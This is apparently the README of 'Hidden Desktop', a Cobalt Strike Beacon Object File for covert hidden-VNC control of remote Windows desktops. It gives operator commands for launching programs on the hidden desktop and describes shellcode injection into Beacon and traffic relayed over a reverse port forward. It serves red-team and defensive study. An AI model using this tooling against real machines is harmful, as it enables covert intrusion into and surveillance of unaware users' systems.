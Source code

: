 # Hidden Desktop BOF

Hidden Desktop (often referred to as HVNC) is a tool that allows operators to interact with a remote desktop session without the user knowing. The VNC protocol is not involved, but the result is a similar experience. This Cobalt Strike BOF implementation was created as an alternative to TinyNuke/forks that are written in C++.

There are four components of Hidden Desktop:

1. BOF initializer: Small program responsible for injecting the HVNC code into the Beacon process.

2. HVNC shellcode: PIC implementation of TinyNuke HVNC.

3. Server and operator UI: Server that listens for connections from the HVNC shellcode and a UI that allows the operator to interact with the remote desktop. Currently only supports Windows.

4. Application launcher BOFs: Set of Beacon Object Files that execute applications in the new desktop.

## Usage

Download the [latest release](https://github.com/WKL-Sec/HiddenDesktop/releases) or compile yourself using `make`. Start the HVNC server on a Windows machine accessible from the teamserver. You can then execute the client with:

```
HiddenDesktop <server> <port>
```

You should see a new blank window on the server machine. The BOF does not execute any applications by default. You can use the application launcher BOFs to execute common programs on the new desktop:

```
hd-launch-edge
hd-launch-explorer
hd-launch-run
hd-launch-cmd
hd-launch-chrome
```

You can also launch programs through File Explorer using the mouse and keyboard. Other applications can be executed using the following command:

```
hd-launch <command> [args]
```

## Demo

https://github.com/WKL-Sec/HiddenDesktop/assets/9327972/82f73393-ba44-42b4-8eae-b36b7181fac0

## Implementation Details

1. The Aggressor script generates random pipe and desktop names. These are passed to the BOF initializer as arguments. The desktop name is stored in CS preferences at execution and is used by the application launcher BOFs. HVNC traffic is forwarded back to the team server using `rportfwd`. Status updates are sent back to Beacon through a named pipe.
2. The BOF initializer starts by resolving the required modules and functions. Arguments from the Aggressor script are resolved. A pointer to a structure containing the arguments and function addresses is passed to the `InputHandler` function in the HVNC shellcode. It uses `BeaconInjectProcess` to execute the shellcode, meaning the behavior can be customized in a Malleable C2 profile or with process injection BOFs. You could modify Hidden Desktop to target remote processes, but this is not currently supported. This is done so the BOF can exit and the HVNC shellcode can continue running.
3. `InputHandler` creates a new named pipe for Beacon to connect to. Once a connection has been established, the specified desktop is opened (`OpenDesktopA`) or created (`CreateDesktopA`). A new socket is established through a reverse port forward (`rportfwd`) to the HVNC server. The input handler creates a new thread for the `DesktopHandler` function described below. This thread will receive mouse and keyboard input from the HVNC server and forward it to the desktop.
4. `DesktopHandler` establishes an additional socket connection to the HVNC server through the reverse port forward. This thread will monitor windows for changes and forward them to the HVNC server.

## Compatibility

The HiddenDesktop BOF was tested using [example.profile](example.profile) on the following Windows versions/architectures:

* Windows Server 2022 x64
* Windows Server 2016 x64
* Windows Server 2012 R2 x64
* Windows Server 2008 x86
* Windows 7 SP1 x64

## Known Issues

* The start menu is not functional.

## Credits

* Heavily based on [TinyNuke](https://github.com/rossja/TinyNuke)
* Included improvements/fixes from [Meltedd/HVNC](https://github.com/Meltedd/HVNC)
* Uses Beacon job interface and project structure from [SecIdiot/netntlm](https://github.com/SolomonSklash/netntlm)

